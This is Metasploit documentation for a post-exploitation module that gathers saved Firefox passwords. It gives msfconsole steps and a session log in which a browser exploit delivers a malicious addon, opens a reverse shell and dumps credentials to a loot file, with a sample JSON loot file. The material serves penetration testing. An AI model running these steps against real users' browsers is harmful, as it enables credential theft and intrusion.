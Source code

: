 ## Vulnerable Application

  This post-exploitation module allows the collection of saved Firefox passwords from a Firefox privileged javascript shell.

## Verification Steps

  1. Start `msfconsole`
  2. Get privileged javascript session
  3. Do: `use post/firefox/gather/passwords`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see all saved Firefox passwords in the loot file in JSON format

## Options

  - **SESSION** - The session to run the module on.

  - **TIMEOUT** - Maximum time (seconds) to wait for a response. The default value is 90.

## Scenarios

  **Obtain a privileged javascript shell and gather saved Firefox passwords**

  To be able to use this module, a privileged javascript shell is needed. It can be obtained by using a javascript privilege exploit like `exploit/multi/browser/firefox_proto_crmfrequest`, `exploit/multi/browser/firefox_proxy_prototype` or others.
  In the example case of the `firefox_proto_crmfrequest` exploit use `set TARGET 0` to use a javascript shell.

  ```
  msf > use exploit/multi/browser/firefox_proto_crmfrequest
  msf exploit(firefox_proto_crmfrequest) > set TARGET 0
  TARGET => 0
  msf exploit(firefox_proto_crmfrequest) > run
  [*] Exploit running as background job.
  msf exploit(firefox_proto_crmfrequest) >
  [*] Started reverse TCP handler on 192.168.2.117:4444
  [*] Using URL: http://0.0.0.0:8080/nbHsSeXAfjr
  [*] Local IP: http://192.168.2.117:8080/nbHsSeXAfjr
  [*] Server started.
  [*] Gathering target information for 192.168.2.117
  [*] Sending HTML response to 192.168.2.117
  [*] Sending HTML
  [*] Sending the malicious addon
  [*] Command shell session 1 opened (192.168.2.117:4444 -> 192.168.2.117:35100) at 2016-10-08 00:33:09 +0200

  msf exploit(firefox_proto_crmfrequest) > use post/firefox/gather/passwords
  msf post(passwords) > set SESSION 1
  SESSION => 1
  msf post(passwords) > run

  [*] Running the privileged javascript...
  [+] Saved 1 passwords to /home/user/.msf4/loot/20161008003433_default_192.168.2.117_firefox.password_070261.txt
  [*] Post module execution completed
  ```

  The loot file then contains all passwords in json format, like so:

  ```
  [  
     {  
        "password":"1234",
        "passwordField":"pwd",
        "username":"admin",
        "usernameField":"log",
        "httpRealm":"",
        "formSubmitURL":"https://example.com",
        "hostname":"https://example.com"
     }
  ]
  ```